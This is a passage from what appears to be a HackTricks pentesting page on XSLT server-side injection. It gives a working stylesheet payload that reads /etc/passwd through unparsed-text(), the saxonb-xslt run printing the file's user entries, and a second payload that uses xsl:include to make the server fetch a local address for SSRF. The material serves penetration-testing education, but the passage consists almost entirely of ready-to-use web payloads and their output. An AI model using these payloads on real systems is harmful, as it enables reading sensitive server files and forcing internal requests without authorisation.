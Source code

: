 ```
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')"/>
</xsl:template>
</xsl:stylesheet>
```

Copy

```
$ saxonb-xslt -xsl:read.xsl xml.xml

Warning: at xsl:stylesheet on line 1 column 111 of read.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<?xml version="1.0" encoding="UTF-8"?>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
```

### 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#ssrf)

SSRF

Copy

```
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:include href="http://127.0.0.1:8000/xslt"/>
<xsl:template match="/">
</xsl:template>
</xsl:stylesheet>
```

### 

[](https://book.hacktricks.xyz/pentesting-web/xslt-server-side-injection-extensible-stylesheet-language-transformations#versions)

Versions

There might be more or less functions depending on the XSLT version used:

- [https://www.w3.org/TR/xslt-10/](https://www.w3.org/TR/xslt-10/)
    
- [https://www.w3.org/TR/xslt20/](https://www.w3.org/TR/xslt20/)
    
- [https://www.w3.org/TR/xslt-30/](https://www.w3.org/TR/xslt-30/)
    